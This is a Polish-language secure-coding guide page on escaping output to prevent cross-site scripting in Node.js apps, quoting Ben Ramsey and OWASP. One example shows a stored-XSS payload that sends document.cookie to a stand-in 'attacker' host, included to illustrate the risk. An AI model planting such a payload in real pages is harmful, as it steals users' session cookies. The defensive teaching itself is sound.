 # Escape Output

### Wyjaśnienie jednego akapitu

HTML i inne języki internetowe mieszają zawartość z kodem wykonywalnym - pojedynczy akapit HTML może zawierać wizualną reprezentację danych wraz z instrukcjami wykonywania JavaScript. Podczas renderowania HTML lub zwracania danych z API uważamy, że czysta treść może w rzeczywistości zawierać kod JavaScript, który zostanie zinterpretowany i wykonany przez przeglądarkę. Dzieje się tak na przykład podczas renderowania treści wstawionych przez osobę atakującą do bazy danych - na przykład `<div> <script> // szkodliwy kod </script> </div>`. Można to złagodzić, instruując przeglądarkę, aby traktowała każdą część niezaufanych danych tylko jako treść i nigdy jej nie interpretowała - ta technika nazywa się ucieczką. Wiele bibliotek NPM i silników szablonów HTML zapewnia możliwość zmiany znaczenia (przykład: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Należy unikać ucieczki nie tylko treści HTML, ale także CSS i JavaScript

### Przykład kodu - Nie umieszczaj niezaufanych danych w swoim HTML

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Przykład kodu - złośliwe treści, które mogą zostać wstrzyknięte do bazy danych

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Cytat na blogu: „Gdy nie chcemy, aby znaki były interpretowane”

Z Bloga [benramsey.com](https://benramsey.com/articles/escape-output/)
> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.

> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the <strong> tags have special meaning: 
<strong>This is bold text.</strong>
But, suppose I want to render the tags in the browser and avoid their interpretation. Then, I need to escape the angle brackets, which have special meaning in HTML. The following illustrates the escaped HTML:

&lt;strong&gt;This is bold text.&lt;/strong&gt;


<br/><br/>

### Cytat na blogu: "OWASP recommends using a security-focused encoding library"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."


<br/><br/>

### Cytat na blogu: "You MUST use the escape syntax for the part of the HTML"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
